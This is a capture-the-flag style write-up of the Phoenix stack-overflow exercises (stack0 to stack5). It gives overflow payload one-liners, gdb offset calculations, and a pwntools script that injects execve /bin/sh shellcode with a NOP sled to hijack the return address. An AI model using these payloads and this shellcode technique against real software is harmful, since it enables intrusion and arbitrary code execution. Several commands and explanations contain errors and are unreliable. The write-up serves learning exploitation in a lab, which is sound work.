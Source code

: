 # Phoenix: is basic binar exploitation challenge:

# Note: challenges are located in /opt/phoenix/amd64


## Stack0:
- gets take un check data which could be used to create the buffer over flow:

```
python -c 'print("A"*70)' | ./stack_zero

```

## Stack1:

- The challenge is similar to the above challenge but one has to look for following things:
  1- read the little-Endians -> which store data from large to smaller values, so after the overflow provide the variables value in reverse order
  2- In the code the user provided input is taken as the argument in the for of ``` char ***argv ``` which is then copied to the buffer of length 64 buffer[64]:
  
  ```
   strcpy(locals.buffer, argv[1]);
  ```
  
  ==Note==: The file takes the input as the argument so we can not pass as the pipe it will give us the error instead we will do this:
  ```
  /stack-one $(python -c 'print("A" * 65 + "\x62\x59\x6c\x49")')
  
  ```
## Stack2:
- In this challenge code is using the envirnment variable with the name of ==ExploitateEducation== to be passed as the argument in the stack.
- so in order make the buffer overflow happen we will do :
```
export ExploitEducation = $(python -c 'print("A" * 65 + \x0a\x09\x0a\x0d)')

```
Simply run the function and we will have the over flow.

## stack3:

- In the stack three one has to first find the address of the complete_level function:
```
objdump -d ./stack-three | grep complete_level
000000000040069d <complete_level>:

```
```
0x40069d
python -c 'print "A" * 64 + "\x9d\x06\x40"' | ./stack-three
```

## stack4

- In this challenge the buffer ovflow occurs in the start_level funtions which is called in the main() function:

```

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}


```

- What we have to do is:
  1- overflow the stack buffer until it reach the return address of strart_level() function
  2- keep in mind all the functions returns addressess are saved on the stack.
  3- the return address of the start_level will also be present on the stack.
  
- How to find the write amount of characters to overflow the buffer:
  1- open the program in the gdb.
  2- place the breakpoint after the gets() function.
  3- fill the buffer with dummy data:
	  ```
	  run < <(python -c 'print("A" * 64)')
	  ```
  4- Now find the location of overflowed function:
	  ```
	  x/100x $rsp // rsp is the stack pointer it is the top most address of the stack
	  ```
  5- the above prompt will dump the address and data stored on the stack in form of hex.
  6- The top left address will mostly likely show the overflowed buffer.
  7- next step is to find the return address of start_level which could by find by:
	  ```
	  info frame // the <saved $rip=????> will be the return address of the start level function
	  ```
  8- To calculate the right amount of characters to reach the start_level return address one can subtract the address of overflowed buffer with the return address
  of the start_level function.
  
	  ```
	  0x7fffffffe4f8 - 0x7fffffffe4a0 = 0x58 
	  which in decimal is = 88
	  ```
  9- Now to curate a payload:
	  ```
	  python -c 'print("A" * 88 + "\x1d\x06\x40")' | ./stack-four
	  ```
## stack 5

- In this challenge one has to inject the the shell code which will return a /bin/sh shell $
- How to approach the problem:
  1- Inject the shellcode on the stack.
  2- change the return address and point it towards the shell code
  3- lastly the shell will execute.

- Procedure of Payload creation:
		1- first copy a shell code from the internet and convert it into little endian hex format:
   		```
	'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff' \
	'\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'	
	```
		2- In the begining of the buffer according to your choice add the NOP -> No operation in the stack:
			```
		'\x90' * 30 // here hex for NOP is \x90 and 30 is number of times we want to insert it.
		```
		3- after adding the NOP now add the shellcode which is defined previously.
		4- The Purpose of NOP is to make the shell land where we want to land it and exclude any discrepancy which comes 
		in the way.
		5- keep in the view that total lenth of buffer is 128, of which we 30 has been defined for the NOP operators.
		6- after the NOP code and shellcode, add the buffer over flow script which is:
			```
		python -c 'print("A" * 98)' // we are multipling it with 98 because 30 are already allocated.
		```
		7- At last overwrite the value of RBP buffer to 8 bit digits as BBBBBBBB.
		8- open the executable in the gdb and set the break point after the gets() function in the 
		start_level function.
		9- then run the code as:
		```
		run < <(python payload.py)
		```
		10- open the info frame and see where is the start_level function will return after the excution:
		```
		gef> info frame
		Stack level 0, frame at 0x7fffffffe520:
		rip = 0x4005a1 in start_level; saved rip = 0x7fffffffe480
		called by frame at 0x7fffffffe528
		Arglist at 0x7fffffffe510, args: 
		Locals at 0x7fffffffe510, Previous frame's sp is 0x7fffffffe520
		Saved registers:
		rbp at 0x7fffffffe510, rip at 0x7fffffffe518

		```
			- here is the saved rip = 0x7fffffffe480 is where the start_level will return 
		11- Use the pwn tool 
	

		```
			from pwn import *
			import sys

		shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff' \
            '\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
		buff  = '\x90' * 30                 # NOP sled
		buff += shellcode                  # Shellcode
		buff += 'A' * (128 - len(buff))    # Padding to reach saved RBP
		buff += 'BBBBBBBB'                 # Fake RBP
		buff += p64(0x7fffffffe480)        # Overwritten RIP // execute the code and analyse the stack to see were your shellcode is starting and replace it with that.


		sys.stdout.write(buff)

		```

To run the code:
```
(python payload.py; cat) | /opt/phoenix/amd64/stack-five
```


